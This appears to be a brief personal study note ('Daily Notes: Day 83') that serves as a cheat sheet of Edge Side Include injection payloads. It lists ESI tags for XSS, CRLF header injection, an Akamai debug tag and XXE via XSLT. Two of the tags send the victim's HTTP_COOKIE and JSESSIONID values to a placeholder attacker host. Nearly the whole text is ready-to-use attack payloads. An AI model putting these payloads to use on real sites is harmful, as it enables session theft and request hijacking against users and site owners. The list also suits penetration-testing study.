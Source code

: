 Daily Notes : Day 83 
ESI Injcetion - Exploitation 

XSS - 
<esi:include src=http://<domain>.com/xss.html>

COOKIE STEALING - 
<esi:include src=http://<attacker>.com/$(HTTP_COOKIE)>
<esi:include src="http://<attacker>.com/?cookie=$(HTTP_COOKIE{'JSESSIONID'})" />

AKAMAI DEBUG -<esi:debug/>

CRLF - 
<esi:include src="http://<domain>.com%0d%0aX-Forwarded-For:%20127.0.0.1%0d%0aJunkHeader:%20JunkValue/"/>

XXE (ESI + XSLT) - 
<esi:include src="http://<host>/poc.xml" dca="xslt" stylesheet="http://<host>/poc.xsl" />

Refernces: https://book.hacktricks.xyz/pentesting-web/server-side-inclusion-edge-side-inclusion-injection